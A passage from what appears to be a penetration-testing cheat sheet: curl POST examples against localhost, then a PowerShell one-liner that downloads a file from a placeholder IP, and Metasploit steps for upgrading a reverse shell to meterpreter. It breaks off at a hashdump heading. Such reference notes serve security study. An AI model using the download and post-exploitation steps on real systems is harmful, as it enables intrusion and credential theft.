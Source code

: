 * data
  * form urlencoded: `-d "param1=value1&param2=value2"` or `-d @data.txt`
  * json: `-d '{"key1":"value1", "key2":"value2"}'` or `-d @data.json`

### Examples

#### POST application/x-www-form-urlencoded

`application/x-www-form-urlencoded` is the default:

    curl -d "param1=value1&param2=value2" -X POST http://localhost:3000/data

explicit:

    curl -d "param1=value1&param2=value2" -H "Content-Type: application/x-www-form-urlencoded" -X POST http://localhost:3000/data

with a data file

    curl -d "@data.txt" -X POST http://localhost:3000/data

#### POST application/json

    curl -d '{"key1":"value1", "key2":"value2"}' -H "Content-Type: application/json" -X POST http://localhost:3000/data

with a data file

    curl -d "@data.json" -X POST http://localhost:3000/data


## Powershell

Download remote files:

```powershell
powershell "(New-Object System.Net.WebClient).DownloadFile("<IP+file>",
<Destination-File>)"
```


# Post-Exploitation

## Metasploit

### Upgrade shell to meterpreter

* Run the exploit directly in background: `exploit -z`
* Use the post exploitation module: `use post/multi/manage/shell_to_meterpreter` (if you set the payload as simple reverse shell. Otherwise, it's meterpreter by default)
* Set the session (find the sessions with `sessions -l`): `set SESSION N`
* Connect to the session: `sessions -i N`

### hashdump
